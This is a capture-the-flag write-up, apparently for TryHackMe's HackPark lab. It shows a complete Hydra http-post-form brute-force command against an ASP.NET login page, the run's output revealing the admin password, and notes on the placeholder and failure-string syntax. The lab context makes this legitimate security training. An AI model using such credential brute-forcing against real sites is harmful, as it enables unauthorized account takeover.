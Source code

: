*Run the following command but fill in the blanks:*

    hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form

*Guess a username, choose a password wordlist and gain credentials to a user account!*

Command used:

    ┌─[✗]─[user@parrot]─[~/labs/tryhackme/hackpark]
    └──╼ $hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.134.121 http-post-form '/Account/login.aspx:__VIEWSTATE=6l3dGMlnquYoIiSej8IGt9u736eFo3nH4suICsI%2BN0k2b8U1XNBJHO2asiXsB6x1orGmNhiJ7vCah0lb%2FDvue8OzouZSAMyzArsHL8Dbm%2FCxxEjw%2FVb6LsoOLjrvJ4Wxr1KQZ9l71PdGQCArHfA1xPpNPZ%2FdqlO%2Fu8OIZ9Ou5VZddACl&__EVENTVALIDATION=439jQTCDf9kNcLVLKWKhTu5JWVh%2FWmSgUZzlfQEANDFGPirP0DrvWfumXeHJQu4ks9cLYE2ZSEc5fMq9loKavfWNyI7SXC7xEy5w9f1IBq5lqYMeBVUjB0OsWGWXkASZCKIeb7KaOZfqxL2DlBtpqSZox1nuLrqZn%2B87lSgf5CouH88F&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed'
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-30 22:26:33
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.134.121:80/Account/login.aspx:__VIEWSTATE=6l3dGMlnquYoIiSej8IGt9u736eFo3nH4suICsI%2BN0k2b8U1XNBJHO2asiXsB6x1orGmNhiJ7vCah0lb%2FDvue8OzouZSAMyzArsHL8Dbm%2FCxxEjw%2FVb6LsoOLjrvJ4Wxr1KQZ9l71PdGQCArHfA1xPpNPZ%2FdqlO%2Fu8OIZ9Ou5VZddACl&__EVENTVALIDATION=439jQTCDf9kNcLVLKWKhTu5JWVh%2FWmSgUZzlfQEANDFGPirP0DrvWfumXeHJQu4ks9cLYE2ZSEc5fMq9loKavfWNyI7SXC7xEy5w9f1IBq5lqYMeBVUjB0OsWGWXkASZCKIeb7KaOZfqxL2DlBtpqSZox1nuLrqZn%2B87lSgf5CouH88F&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed
    [STATUS] 1312.00 tries/min, 1312 tries in 00:01h, 14343087 to do in 182:13h, 16 active
    [80][http-post-form] host: 10.10.134.121   login: admin   password: 1qaz2wsx
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-30 22:27:41

This took a couple of tries, but basically:

In the variables argument you need to have at least strings ^USER^, ^PASS^, ^USER64^ or ^PASS64^. We used ^PASS^, since we guessed the username "admin".

URL --> `/Account/login.aspx:`

It needs a **Failure Response** --> `...:Login Failed`. This basically tells it, if this string appears in the response, it's a fail. If it didn't, then you've passed!

User:Pass

admin:1qaz2wsx

### 3 

*Hydra really does have lots of functionality, and there are many "modules" available (an example of a module would be the http-post-form that we used above).*

*However, this tool is not only good for brute-forcing HTTP forms, but other protocols such as FTP, SSH, SMTP, SMB and more. *

*Below is a mini cheatsheet:*

